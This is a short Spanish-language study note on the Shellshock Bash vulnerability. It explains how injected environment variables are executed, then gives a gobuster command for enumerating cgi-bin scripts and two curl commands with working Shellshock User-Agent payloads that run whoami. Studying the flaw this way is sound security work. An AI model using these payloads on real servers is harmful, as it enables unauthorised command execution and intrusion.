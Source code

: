 -- - 
Un ataque Shellshock es un tipo de ataque informático que aprovecha una vulnerabilidad en el intérprete de comandos Bash en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

Por lo general siempre es factible intentar el Shell Shock Attack si encontramos el directorio cgi-bin.
-- -
Una vez encontrado el directorio cgi-bin, lo ideal es enumerar archivos con extensiones; pl,sh,cgi.
```bash
gobuster dir -u http://localhost/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi -v
```
 Luego de haber encontrado un archivo dentro de ese directorio podemos proceder a intentar ejecutar comando con el uso de curl mediante el User-Agent
 ```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /usr/bin/whoami"
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /usr/bin/whoami" ---> Si no reporta nada el comando anterior le metemos un echo antes
```
-- - 
